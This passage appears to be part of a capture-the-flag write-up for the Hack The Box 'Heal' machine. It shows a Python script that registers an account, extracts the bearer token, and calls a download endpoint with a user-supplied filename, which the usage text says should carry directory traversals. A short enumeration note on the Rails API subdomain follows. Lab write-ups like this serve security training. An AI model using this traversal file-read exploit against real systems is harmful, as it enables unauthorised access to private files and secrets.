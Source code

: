 ```python
    #print(response.text)
    
    # Check if the request was successful and filters output
    if response.status_code == 201:
        # Use regex to extract the token from the response text
        match = re.search(r'"token":"([^"]+)"', response.text)
        if match:
            token = match.group(1)
            return token
    else:
        print(f"Failed to sign up. Status code: {response.status_code}")
        return None

def download_file(token, filename):
    url = f"http://api.heal.htb/download?filename={filename}"
    headers = {
        "Authorization": f"Bearer {token}"
    }
    
    response = requests.get(url, headers=headers)
    
    if response.status_code == 200:
        print(response.text)
    else:
        print(f"Failed to download file. Status code: {response.status_code}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python script.py <FILENAME>")
        print("Usage: INCLUDE DIRECTORY TRAVERSALS MANUALLY")
        sys.exit(1)
    
    filename = sys.argv[1]
    token = signup()
    if token:
        download_file(token, filename)
    else:
        print("No token received.")
```

# Inspecting Subdomain (api.heal.htb)

After accessing the subdomain in the web browser it displayed a Rails home page. The version of both Ruby and Rails were displayed in the footer as shown below.
